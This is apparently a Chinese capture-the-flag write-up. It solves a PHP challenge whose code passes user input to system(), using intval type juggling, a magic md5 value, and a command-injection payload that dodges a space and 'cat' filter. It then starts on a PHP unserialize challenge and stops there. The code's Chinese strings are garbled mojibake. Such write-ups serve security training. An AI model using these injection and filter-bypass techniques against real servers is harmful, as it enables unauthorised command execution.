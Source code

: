 ```php
       echo "鎯冲埌杩欎釜CTFer鎷垮埌flag鍚�, 鎰熸縺娑曢浂, 璺戝幓涓滄緶宀�, 鎵句竴瀹堕鍘�, 鎶婂帹甯堣桨鍑哄幓, 鑷繁鐐掍袱涓嬁鎵嬪皬鑿�, 鍊掍竴鏉暎瑁呯櫧閰�, 鑷村瘜鏈夐亾, 鍒灏忔毚.</br>";
   else
       die("鎴戣刀绱у枈鏉ユ垜鐨勯厭鑲夋湅鍙�, 浠栨墦浜嗕釜鐢佃瘽, 鎶婁粬涓€瀹跺畨鎺掑埌浜嗛潪娲�");
}else{
    die("鍘婚潪娲插惂");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "鎯冲埌杩欓噷, 鎴戝厖瀹炶€屾鎱�, 鏈夐挶浜虹殑蹇箰寰€寰€灏辨槸杩欎箞鐨勬湸瀹炴棤鍗�, 涓旀灟鐕�.</br>";
        system($get_flag);
    }else{
        die("蹇埌闈炴床浜�");
    }
}else{
    die("鍘婚潪娲插惂");
}
?> 
```

//leve 1

get方式传入num值，满足`intval($num) < 2020 && intval($num + 1) > 2021`

传入num=1e10

因为$_GET['num']传入时是字符串，intval($num)=1，intval($num + 1)经过运算后为int类型。

get方式传入md5值，满足 `$md5==md5($md5)`

传入md5=0e215962017

get方式传入get_flag值，`!strstr($get_flag," ")`不可以有空格，` str_ireplace("cat", "wctf2020", $get_flag)`cat替换为wctf2020

空格用<代替，cat可以用less、more、tail绕过

最终payload为?num=1e10&md5=0e215962017&get_flag=tail<fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag

### catf1agCTF easy_unser_1

查看代码

```php
<?php
//error_reporting(0);

show_source('./index.php');
class flag_in_there{
  public $name;
  public $age;

  public function __construct($name,$age){
    $this->name = $name;
    $this->age = $age;
  }
  public function get_flag(){
    echo "hello，i'm '$this->name',now '$this->age' years";
  }
}
$flag = new flag_in_there('vfree','19');
$ser = serialize($flag);
$un = $_GET['str'];
```